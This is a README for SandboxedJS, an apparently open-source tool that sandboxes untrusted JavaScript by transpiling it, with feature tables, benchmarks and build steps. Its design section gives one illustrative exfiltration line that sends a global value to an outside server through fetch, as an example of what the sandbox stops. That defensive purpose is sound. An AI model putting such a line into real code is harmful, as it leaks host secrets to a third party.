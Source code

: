 # SandboxedJS

Sandbox untrusted/arbitrary JavaScript code and safely execute it in isolation.

## Performance

Run `npm run benchmark` to benchmark SandboxedJS's `saveEval` against a native js `eval`. Currently most benchmarks comparisons show SandboxedJS is **~20x** slower than native JS. However, if you don't count the time required to transpile the code, execution time can be as low as **~1.3x** the speed of native JS, depending on the kind of work being performed. The goal for the MVP is to just get this thing working in a secure manner (breaking out of sandbox should be impossible), and optimizations can come later.

## Bindings to native and host JS APIs

One of the main focuses of this project is to support as many APIs as possible, both native ECMAScript APIs and host APIs (i.e. browser's `window` version of `globalThis`, DOM and such). To accomplish this, there is a separate node project under [bindings](https://github.com/joehinkle11/SandboxedJS/tree/main/bindings) which is responsible for taking in typescript definitions (i.e. a `lib.d.ts`) and then generating binding code for the sandbox environment. Recently all the hardcoded bindings were replaced with this system and all the old unit tests (15,000+) are passing. The hope is to get this binding generation system working so well that it's trivial to expose a JS library to the sandbox environment provided you have a typescript definition file for it.

## Status

Under active development. Looking for others to help out! 🙋‍♂️

## JS Support 

| Feature | Status |
| ------- | ------ |
| primitives | ✅ |
| `number` | ✅ |
| `string` | ✅ |
| `boolean` | ✅ |
| `null` | ✅ |
| `undefined` | ✅ |
| `bigint` | ✅ |
| `symbol` | ✅ |
| simple objects (i.e. `{a: true}`) | ✅ |
| weird numbers like `Infinity` or `NaN` | ✅ |
| autoboxing primitives to objects | ✅ |
| binary operators (`+`, `-`, `%`, etc.) | ✅ |
| unary operators  (`+`, `-`, `typeof`, etc.) | ✅ 
| arrays | ✅ |
| functions | ✅ |
| function constructors | ✅ |
| Function prototype for constructor call | ✅ |
| return | ✅ |
| `instanceof` | ✅ |
| `eval(...)` | ❌ |
| brainfuck-like code i.e. `+!![] / +![] // Infinity` | ✅ |
| function `bind` | ✅ |
| lambda/arrow functions | ⚠️ |
| `this` | ✅ |
| `arguments` | ✅ |
| global functions like `parseFloat` `parseInt` `isNaN` `isFinite` | ✅  |
| `unescape` `escape` | ✅ |
| function param names | ✅ |
| rest parameter | ✅ |
| spread operator | ❌ |
| throw | ✅ |
| try catch | ✅ |
| finally | ✅ |
| async | ❌ |
| await | ❌ |
| class | ❌ |
| getters/setters | ⚠️ |
| local variables | ✅ |
| assignment | ✅ |
| global variables | ⚠️ |
| prototypes | ✅ |
| `__proto__` on plain object init sets prototype | ✅ |
| `Object` global | ✅ |
| `Reflect` global | ⚠️ |
| `Proxy` global | ⚠️ |
| frozen / extensible object states | ⚠️ |
| enumerable / configurable object property states | ⚠️ |
| `delete` | ❌ |
| ternary operators | ✅ |
| destructuring | ❌ |
| imports | ❌ |


| Legend |  |
| ------- | ------ |
| ✅ | Finished  |
| ⚠️ | In development  |
| ❌ | Haven't started work  |

## Comparison of JS in JS Implementations

| Name | Link | Performance |
| ----------- | ----------- | --------- |
| SandboxedJS |  | ~20x slower than native |
| js.js | https://github.com/jterrace/js.js/ | [~200x slower than native]()https://github.com/jterrace/js.js/#status |
| JS-Interpreter | https://github.com/NeilFraser/JS-Interpreter/ | [~200x slower than native](https://github.com/NeilFraser/JS-Interpreter/issues/227) |


## Design

Let's say we want to sandbox the following untrusted JS code:

```js
fetch("https://api.example.com?stolenSecret=" + window.globalValue);
```

In this example, the untrusted code is attempting to grab a global value it should NOT have access to and pass the value to its server. If this code was naively run with `eval`, the host environment would be compromised.

To make untrusted JS code safe to run, SandboxedJS rewrites the untrusted code using a JS-to-JS transpilation step. Then it is safe to run `eval` on the transpiled js code. The resulting transpiled code of the above example might look something as follows:

```js
sContext.sLookUp("fetch").sCall([
  SBinaryOps.sBinaryAdd(
    new SStringValue("https://api.example.com?stolenSecret="),
    sContext.sLookUp("window").sLookUp("globalValue")
  )
])
```

Note, the "s" prefix is short for "sandboxed".

To produce this code, SandboxedJS uses [acorn](https://github.com/acornjs/acorn) to produce an AST of the untrusted JS. It then walks the entire AST and emits each piece of the tree in the format above.

## Running Locally

First you need to build the bindings.

Cd into bindings folder: `cd bindings`

Install deps: `npm i`

Build bindings: `npm run start`

You should now have src/gen/Bindings_Generated.ts present in your project.

Cd back to main folder: `cd ..`

Install deps: `npm i`

Run tests: `npm test`

Run benchmarks: `npm run benchmark`

Build to `lib` folder: `npm run build`

## Unique Features

 - Add metadata to any JS value which is invisible to the client (untrusted) JS code but visible to the host environment.
